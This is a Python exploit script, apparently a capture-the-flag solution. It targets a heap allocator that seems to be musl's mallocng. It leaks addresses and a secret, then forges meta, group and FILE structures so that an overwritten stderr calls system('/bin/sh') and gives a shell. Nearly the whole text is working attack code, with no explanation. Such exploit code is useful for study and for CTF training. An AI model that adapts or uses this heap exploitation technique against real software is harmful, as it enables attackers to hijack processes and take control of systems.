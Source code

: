 ```py
libc_base = mmap_addr + 0x4000

for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(group_addr) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
meta_addr = u64(leak[0:8])
meta_area = meta_addr & 0xFFFF_FFFF_FFFF_F000
info('meta_area: ' + hex(meta_area))
for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(meta_area) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
secret = u64(leak[0:8])
info('secret: ' + hex(secret))
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
stderr = libc_base + libc.symbols['stderr']
stdout = libc_base + libc.symbols['stdout']

for i in range(2):
    query(b'B' * 0x30)
fake_file_addr = libc_base - 0x3000 + 0x560
fake_meta_addr = libc_base - 0x2000 + 0x10
fake_group_addr = libc_base - 0x2000 + 0x40

# key
key = p64(group_addr + 0x20)
key += p64(fake_group_addr + 0x10)
key += p64(4)
key += p64(0x30)
key += p64(encrypt_original(find_collision(find_collision(b'B'))))
key += p64(0)

fake_file = b'/bin/sh\x00'
fake_file += p64(0) * 6
fake_file += p64(1)     # wbase
fake_file += p64(0)
fake_file += p64(system)    # write

maplen = 1
sizeclass = 8
last_idx = 0
freeable = 1
fake_meta = p64(fake_group_addr + 0x10 + 0x80)      # prev
fake_meta += p64(stderr)                            # next
fake_meta += p64(fake_group_addr)                   # fake_meta->mem
fake_meta += p64(0)                                 # fake_meta->avail_mask
fake_meta += p64(last_idx + (freeable << 5) + (sizeclass << 6) + (maplen << 12))
fake_meta += p64(0)

fake_group = p64(fake_meta_addr)
fake_group += p64(1)
fake_group += p64(0)

value = fake_file.ljust(0x1000 - 0x560, b'\x00')
value += p64(secret).ljust(0x10, b'\x00')
value += fake_meta
value += fake_group
```